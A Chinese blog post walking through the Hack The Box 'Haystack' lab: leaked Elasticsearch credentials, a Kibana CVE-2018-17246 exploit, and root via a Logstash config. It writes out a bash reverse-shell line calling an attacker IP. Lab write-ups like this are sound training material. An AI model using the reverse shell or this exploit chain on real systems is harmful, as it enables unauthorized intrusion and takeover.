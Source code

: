 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nnF-DRXmWYLzH-rYkxUxng)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **162** 篇文章，本公众号会每日分享攻防渗透技术给大家。

靶机地址：https://www.hackthebox.eu/home/machines/profile/195

靶机难度：初级（3.6/10）

靶机发布日期：2019 年 10 月 20 日

靶机描述：

Haystack is an Easy difficulty Linux box running the ELK stack (Elasticsearch, Logstash and Kibana). The elasticsearch DB is found to contain many entries, among which are base64 encoded credentials, which can be used for SSH. The kibana server running on localhost is found vulnerable to file inclusion, leading to code execution. The kibana user has access to the Logstash configuration which is set to execute files as root based on a certain filter.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/YK9e7vHy9IQATwibKVicOpXZibX8VOvBrnF8UXRGvcibFy79c4NzQ5qiaZYAialtVicUHCxUcIPzXM0K4aziaQHEPjTDIw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/cr0TTE2QLx3xBmEgU6pOvE8icSG4mNiaNpN7pAPCkEzHe6jKcGMJKUSTPuib5nT7XWwliazst9VfJHD6hSEQ3ibbiauw/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0S9w6M3Agxj0gaCkR35iaa2HcEEdrvDayedLjicXsUicB2x3UhtibLD3iayrQ/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.115...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0S5YlZwueRdLPWNtF5zcgiaNlfk7ictdIEELjApUprzcw3zllicfngwMGAg/640?wx_fmt=png)

我这里利用 Masscan 快速的扫描出了 21，22，9200 端口，在利用 nmap 详细的扫描了三个端口信息，9200 是 http 服务等...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0S3Kicu5fichpgjNssd8GIaYwK8RvjEtxkY2Pw3eF8WhHxvJrOcSlibh2Rw/640?wx_fmt=png)

web 页面只有一张图，下载该图查看下....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0Sx4aTF859kfia45vRIDqicuY1R70F8aXibGDMMibV5gdQ8nskttx08qvTug/640?wx_fmt=png)

成功下载...strings 解析...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0Sh8PMia4sGJBlsDrxRx0YcfJT8gkO7hqW31KId9HJtaN9P5icNlzibepXw/640?wx_fmt=png)

发现一串 base64 值，转存发现了一段话...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SAicDStGXGrODF1f5Hul3g9vHyHhU92U6IXib3qMM3s5jmJKDcibtgGicww/640?wx_fmt=png)

这是西班牙语，通过靶机介绍的，翻译了这是 key 的意思，记住下 clave 这个词...

继续检查 9200...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SGW3HpOfvFDQ8m7SnQMPccaF8icYqgHMtibQ5g8laWGyic8z6PBgJia0TVQ/640?wx_fmt=png)

可以看到该页面是 Elasticsearch，其中的数据以 “索引” 的形式存储着... 它类似于任何关系 DBMS 服务器中的数据库，要列出数据库中存在的所有索引，google 给了很多提示..._search 等...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SYBiaTbxb1gkB4RxSrQd0pSmJficmT36hHAjXfrZbBEmKpMMwkbSUsWfA/640?wx_fmt=png)

通过_search?q=clave 发现了用户名密码的 basr64 值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SPibc2liaO6hNomrAcyAv6C1KkHuVHd08RQJiauySGVODD6Lb8FFeic53Lw/640?wx_fmt=png)

转储发现了是 security 用户信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0S8ibxwZ9j80w7iay94ibP9Oicniab2hIIE8RcOG9R9dHX4MqCcPXZXF3UiaRg/640?wx_fmt=png)

成功通过 SSH 登录该用户....

并获得了 user_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0S4YuM5aicPSnLL8FPGu1jPwnzzUhfuExt0zicNFXoCicXbA0v7vHUVFjrw/640?wx_fmt=png)

本靶机存在 Logstash，这是一个开放源代码的服务器端数据处理管道，它同时从多个源中提取数据，进行转换存储...

这里没有权限打开...

我进行了端口查看，5601 是开放的本地端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SQ8Fy7J8CoY8LPSJ6nPzm1r0uqOv0f0svY8iabgpDCWPicolVwEIibcrZQ/640?wx_fmt=png)

映射端口到 kali 本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SbZ48x7QAJtdIrS20Vq4Y8TjJIw8gRuj2wvgCOAicCicgVCticanFrZXRw/640?wx_fmt=png)

这是 kibana 框架服务页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SvLLGbT8WcfMktP03BCpeDoOaoJQP0L8O9iakPhC5z9JBuTIVmCcec5A/640?wx_fmt=png)

知道了是某框架，就查找版本，该版本 6.4.2

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SqEvb82mdkRK7gIywPIRNaBW9tS8mCzrzrZRhyvVMOadenMeqbjxPfA/640?wx_fmt=png)

直接找框架版本漏洞... 存在 CVE-2018-17246

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SPtqlMQlVooiapEFwqx6KMxAWicFlDhvEdjicSKliclgrQoxNsDvI5vFErw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SU3Tuibic41Afia2p7VOwJmsslvyfzyqnwLgNbwwAAYMqjh2miaGY9T1hXg/640?wx_fmt=png)

```
https://github.com/mpgn/CVE-2018-17246
```

通过介绍，参考 POC 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SicUkat9O8INKU9UUOwXLlliciaJZR9sGoTujgkZQF1Nicm1V5mUZloOdUA/640?wx_fmt=png)

直接本地写入 shell，上传后通过 POC 提示，执行后获得了反向外壳 kibana 权限....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0S3sldNT15wDibuLCRu7TbypPVo1AtDWWeDMUMfIZAbFVzMX6UMC3HGAQ/640?wx_fmt=png)

前面就知道 Logstash 是一种从各种来源收集数据并将其发送到 Elasticsearch 进行存储的软件，它可以从各种日志和服务（例如数据库，系统日志等）收集数据....

前面没办法查看，现在查看下其中配置信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0SicV3YCcnAc1MEp2ex5FgnJ151DwdZFAuLREIOMkQxjE4icydXeHSLvyA/640?wx_fmt=png)

意思很简单，输入的 shellcode 只需要放置在 Ejecutar comando :  之后即可...

执行硬条件必须在 / opt/kibana/logstash_* 下，那么创建个 logstash_dayu 等类似文件，写入 shell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KONbKyFILhnwqiaB1a7CAp0Sn151CCUEcTFLHOMHhVCmBE3lt1qAMUyKnSnxDe7bjbwZKDBVTKQ9BQ/640?wx_fmt=png)

```
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.51/4444 0>&1
```

成功获得了 root 权限，并获得了 root_flag 信息...

这里学习到了 CVE-2018-17246 漏洞的复现，以及 Kidnan 框架的一些问题...

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台初级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/YK9e7vHy9IQATwibKVicOpXZibX8VOvBrnF8UXRGvcibFy79c4NzQ5qiaZYAialtVicUHCxUcIPzXM0K4aziaQHEPjTDIw/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)